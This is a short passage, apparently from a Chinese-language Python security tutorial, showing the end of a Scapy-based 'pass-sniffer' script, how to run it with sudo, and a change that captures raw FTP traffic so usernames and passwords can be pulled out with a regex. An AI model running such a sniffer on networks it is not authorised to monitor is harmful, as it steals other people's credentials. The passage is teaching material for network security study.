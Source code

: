 ```py
try:
    sniff(iface=iface, prn=pkt_parser, store=0)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

1.  现在，以所需的权限运行脚本：

```py
sudo python3 pass-sniffer.py  
```

1.  我们可以通过少量修改来更新这个脚本以提取 FTP 凭据：

```py
if pkt[TCP].dport == 21 or pkt[TCP].sport ==21:
   data = pkt[Raw].load
   print(str(data))  
```

这将打印 FTP 数据。我们可以对其进行正则匹配以获取用户名和密码。
